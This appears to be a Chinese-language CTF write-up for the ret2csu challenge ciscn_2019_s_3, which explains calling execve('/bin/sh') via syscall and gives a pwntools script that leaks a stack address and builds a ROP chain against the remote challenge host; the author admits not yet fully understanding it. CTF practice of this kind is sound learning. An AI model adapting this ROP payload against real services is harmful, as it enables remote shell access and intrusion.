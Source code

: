 # 记录一道ret2csu的pwn题




> 写这道题之前, 大家首先要了解, 想要获得一个shell, 除了system("/bin/sh") 以外, 还有一种更好的方法, 就是系统调用中的 execve("/bin/sh", NULL, NULL)获得shell。我们可以在 Linxu系统调用号表 中找到对应的系统调用号,进行调用, 其中32位程序系统调用号用 eax 储存, 第一 、 二 、 三参数分别在 ebx 、ecx 、edx中储存。 可以用 int 80 汇编指令调用。64位程序系统调用号用 rax 储存, 第一 、 二 、 三参数分别在 rdi 、rsi 、rdx中储存。 可以用 syscall 汇编指令调用。

![image-20210826231354889](image-20210826231354889.png "pop_rdi gadget")



```python
from pwn import *

# 本地调试
if args.LOCAL:
    # context.terminal = ["wsl", "-c"]
    # io = process("./ciscn_2019_s_3")
    io = gdb.debug("./ciscn_s_3")
else:
    io = remote("node4.buuoj.cn", 25280)
    context.log_level = 'debug'

vuln_addr = 0x4004ed
syscall = 0x400517
pop_rdi_ret = 0x4005a3
mov_rax_59_ret = 0x4004e2
pop_rbx_rbp_r12_r13_r14_r15_ret = 0x40059a
mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12 = 0x400580

payload1 = b'a'*0x10 + p64(vuln_addr)
io.sendline(payload1)

io.recv(0x20)

stack_addr = u64(io.recv(8))
binsh_addr = stack_addr - 0x118
io.recv(0x38)

payload2 = b'/bin/sh\x00'.ljust(0x10, b'a') + p64(pop_rbx_rbp_r12_r13_r14_r15_ret)
payload2 += p64(0)*2 + p64(binsh_addr+0x50) + p64(0)*3
payload2 += p64(mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12) + p64(mov_rax_59_ret)
payload2 += p64(pop_rdi_ret) + p64(binsh_addr) + p64(syscall)

io.sendline(payload2)
io.interactive()
```

挖坑，明天来填，讲真现在对这题还是不太懂:no_mouth:


